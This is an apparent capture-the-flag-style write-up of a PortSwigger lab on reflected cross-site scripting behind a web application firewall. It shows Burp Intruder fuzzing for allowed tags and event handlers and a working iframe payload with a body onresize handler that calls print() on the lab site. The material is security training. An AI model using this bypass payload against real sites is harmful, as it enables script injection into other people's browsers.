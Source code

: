 # Reflected XSS into HTML context with most tags and attributes blocked

## This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the WAF and calls the `print()` function.

### HINT:

```javascript
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

---

### step 1

search any tag<> like `<script>` you will notice it is blocked not allowed
intercept this request and send to intruder
add <§§> into search into intruder then add payload from xss cheat seat copy `copy tag to clipboard`
you will get 200 response
`<body>` tag is allowed

### step2

add <body%20§§=1> into search into intruder
add payload from xss cheat seat copy `copy event to clipboard`
<<body%20onbeforeinput=1>
<<body%20onresize=1>
<<body%20onscrollend=1>
these give 200 response

### step3

```javascript
<iframe src="https://0a9600c2042f98f480dae9cb00ec001d.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

add into expolit page and deliver expolit to victim
